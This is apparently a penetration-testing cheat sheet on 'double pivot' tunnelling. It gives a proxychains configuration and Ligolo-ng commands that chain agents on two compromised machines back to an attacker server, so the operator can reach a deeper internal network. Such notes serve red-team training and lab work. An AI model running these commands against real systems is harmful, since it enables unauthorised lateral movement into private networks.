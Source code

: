 # Double Pivot

Double pivot AKA double proxy is used when we are trying to connect deeper into another network that is not visible to us via another internal network

##### /etc/proxychains.conf

##### Ensure dynamic_chain is uncommented

    dynamic_chain
    proxy_dns 
    tcp_read_time_out 15000
    tcp_connect_time_out 8000
    socks5  127.0.0.1 1080  # First Pivot
    socks5  127.0.0.1 1081  # Second Pivot

## Ligolo-ng

This case is useful when you compromised a first target that can contact your server, and you have also compromised a second machine that is able to contact your first target, and another network, which is the final goal. And this second machine is not able to contact your server.

### 1) On the attacker machine, start the listener

##### Automatically request LetsEncrypt certificates or use self-signed certificates

    ./proxy [-autocert | -selfcert] -laddr 0.0.0.0:443

### 2) On the first pivot machine, start the agent

    ./agent -connect $ATTACKER:443 [-ignore-cert]

### 3) Then, on the server select the opened session and start a new listener

    ligolo-ng » session
    [Agent : $SESSION] » listener_add --addr 0.0.0.0:1080 --to 127.0.0.1:11601

The first agent will listen on 0.0.0.0:1080
Any connections on this ip:port will be relayed to the 11601 TCP local port of the Ligolo-ng daemon.

### 4) Then, on the second pivot machine, run the agent and connect it to the first agent

    ./agent -connect $firstPivot:1080 [-ignore-cert]

A second session will appear on the server. Select it, and run the autoroute command. You can now access the final network.
